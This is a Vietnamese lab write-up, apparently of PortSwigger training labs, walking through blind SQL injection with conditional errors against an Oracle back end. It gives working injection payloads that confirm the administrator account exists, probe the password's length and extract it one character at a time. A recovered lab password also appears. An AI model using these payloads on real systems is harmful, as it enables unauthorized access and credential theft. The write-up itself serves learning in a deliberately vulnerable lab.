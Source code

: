 *Chú ý: dùng bản pro nhanh hơn :))))))*
![](https://hackmd.io/_uploads/B1RmDR6fa.png)

- Sắp xếp lại vị trí, ta được mật khẩu: `vzpttufherdpsiqgirg3`

Login xem nào
![](https://hackmd.io/_uploads/H1ZG_ATfp.png)
Done!

# Lab 12: Blind SQL injection with conditional errors
![](https://hackmd.io/_uploads/HJ3nU1RMp.png)
- Lab này sẽ không trả về giá trị nào của truy vấn, còn nếu sql lỗi thì ứng dụng sẽ đưa ra lỗi tương ứng
- Database chứa bảng `users` có 2 cột `username` và `password`. Ta phải khai thác lỗ hổng blind SQL injection để tìm ra tài khoản `administrator`.

Đầu tiên, xác định xem web sử dụng database loại gì
![](https://hackmd.io/_uploads/H1TtyxRza.png)
Web không xảy ra lỗi, tức là nó sử dụng Oracle

Ta có truy vấn sẽ làm cho câu lệnh lỗi
```sql
SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''
```
Tận dụng lỗi này để khai thác

Tiếp theo, xác định có tồn tại `username` là `administator` không
```sql
'+||(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator')||'
```
![](https://hackmd.io/_uploads/H1vqzg0M6.png)
Nhận được lỗi, chứng tỏ tồn tại

Tiếp theo, tìm độ dài của password
```sql
'+||(SELECT+CASE+WHEN+LENGTH(password)>§1§+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator')||'
```
![](https://hackmd.io/_uploads/ByOH7lRzp.png)
Thử từ 1 -> 30 
![](https://hackmd.io/_uploads/ByqR7lCfp.png)
Có sự thay đổi ở vị trí 20 trở đi
![](https://hackmd.io/_uploads/S1KyExAMa.png)
Ở đây web không xảy ra lỗi (status 200), chứng tỏ password có 20 kí tự

Tiếp theo, tìm từng kí tự của password
```sql
'+||(SELECT+CASE+WHEN+SUBSTR(password,$1$,1)='§a§'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username='administrator')||'
```
Tại vị trí nào web xảy ra lỗi (status 500) thì ở đó chính là vị trí kí tự của password
![](https://hackmd.io/_uploads/B12f8x0GT.png)
